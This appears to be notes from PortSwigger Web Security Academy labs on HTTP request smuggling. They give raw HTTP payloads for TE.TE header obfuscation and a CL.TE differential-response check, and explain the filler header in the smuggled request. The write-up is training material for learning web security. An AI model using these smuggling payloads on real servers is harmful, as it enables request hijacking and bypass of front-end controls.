 ```
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

x=1
0


```

As the frontend is only accepting either GET or POST request We crafted a new HTTP request.


## Lab: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

```
POST / HTTP/1.1
Host: 0aa500120392959280fc4eb500ff004d.web-security-academy.net
Cookie: session=9QbCn4iCX3kyvd1X26G7HsZRpv8HtGhi
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```



X-Ignore: X is just a filler header to make the smuggled GET /404 request valid. It ensures:

The backend HTTP parser sees a legitimate request.

You don't rely on any real headers (like Host), which might trigger validation or WAF rules.


